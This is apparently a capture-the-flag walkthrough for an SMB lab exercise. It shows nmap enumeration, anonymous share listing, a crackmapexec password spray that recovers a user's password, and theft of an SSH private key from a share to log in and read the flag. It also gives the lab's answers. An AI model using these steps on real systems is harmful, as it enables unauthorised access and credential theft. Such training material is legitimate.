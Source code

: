 # SMB

### What is the name of the shared folder with READ permissions?

```bash
nmap -sV -sC 10.129.4.241
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
53/tcp  open  domain      ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_nbstat: NetBIOS name: ATTCSVC-LINUX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-02-22T12:05:39
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

lets check smb share

```bash
smbclient -N -L //10.129.4.241 
Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        GGJ             Disk      Priv
        IPC$            IPC       IPC Service (attcsvc-linux Samba)
```

GGJ

### What is the password for the username "jason"?

```bash
#we have wordlist from resources, download it
crackmapexec smb 10.129.4.241 -u jason -d . -p pws.list
SMB         10.129.4.241    445    ATTCSVC-LINUX    [+] .\jason:34c8zuNBo91!@28Bszh 
```

34c8zuNBo91!@28Bszh

### Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

```bash
smbclient //10.129.4.241/GGJ -U jason%'34c8zuNBo91!@28Bszh'
get id_rsa
#now we login with this id_rsa
chmod 600 id_rsa
ssh -i id_rsa jason@10.129.4.241 
cat flag.txt
HTB{SMB_4TT4CKS_2349872359}
```
